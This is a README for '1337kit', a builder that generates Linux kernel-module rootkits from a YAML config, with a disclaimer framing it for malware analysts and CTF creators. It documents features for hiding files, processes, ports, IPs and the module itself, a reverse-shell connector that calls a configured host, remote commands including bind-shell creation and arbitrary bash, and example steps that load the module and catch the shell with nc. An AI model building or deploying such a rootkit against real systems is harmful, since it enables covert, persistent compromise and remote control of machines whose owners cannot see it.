 # 1337kit - LKM Rootkit Builder

![1337kit](images/1337kit.png)

## About project

1337kit is 64-bit LKM Rootkit builder based on yaml prescription

Fully tested on: Linux 5.11.0-34-generic 20.04.1-Ubuntu x86_64 x86_64 x86_64 GNU/Linux

### DISCLAIMER: FOR EDUCATIONAL AND INFORMATIONAL PURPOSES ONLY

This project is for malware analysts and for creator of CTF or cyber security exercises, with this builder you can build your custom rootkit for your exercise

**I do not take any responsibility for usage of this project**

### Features

* RevShell based connector
* Hiding dents (files, files prefixes, process id)
* Hiding connections based on Ports in TCP Connection
* Hiding connections based on IPv4 in TCP Connection
* Spawning scripts to user-space
* Hiding module from module list

## Installation

Builder requirements:

```sh
$ pip3 install -r requirements.txt
```
Install requirements for building LKM:

```sh
sudo apt-get install build-essential linux-headers-$(uname -r)
```
## Usage

You have to create your yaml prescription for custom rootkit,
Example of full prescription (every option can be omitted):

```yaml
hideme: true
connector:
    ip: "127.0.0.1"
    port: "8080"
hide_dent: # Here you can put all your files, directories and process id you want to hide from user
    - "91746"
    - "1337test_"
hide_port:
    - "8080"
    - "1337"
hide_ip:
    - "127.0.0.1"
    - "8.8.8.8"
shells:
    - "sleep 1000"
```

After you create your yaml just run the builder.py

```sh
$ python3 builder.py --help
usage: builder.py [-h] [-c CONFIG] [-o [OBFUSCATE]]

Generate rootkit from yaml prescription

optional arguments:
  -h, --help            show this help message and exit
  -c CONFIG, --config CONFIG
                        Yaml prescription file
  -o [OBFUSCATE], --obfuscate [OBFUSCATE]
                        Enable rootkit symbols obfuscation

```

![builder](images/builder.png)

And rootkit will be created.

another way to execute your hiding or shell script is connector, if you enable your connector, rev-sell connection is created to your defined IP and Port, after this it will try open connection every x second. After connection is opened multiple commands can be send:

* HIDEME
* SHOWME
* HIDE_DENT
* SHOW_HIDDEN_DENT
* HIDE_PORT
* SHOW_HIDDEN_PORT
* HIDE_IP
* SHOW_HIDDEN_IP
* BINDSHELL_CREATE
* RUN_CUSTOM_BASH

## Future Features

* TCP IPv6 hiding
* UDP based hiding
* Rootkit string encryption/obfuscation

### Examples

```sh
$ python3 builder.py --config testfiles/config.yml
$ sudo insmod rootkit.ko
$ nc -lvnp 8080
 Listening on 0.0.0.0 8080
 Connection received on 127.0.0.1 39040
 RUN_CUSTOM_BASH sleep 1000
```

![example](images/example.jpeg)
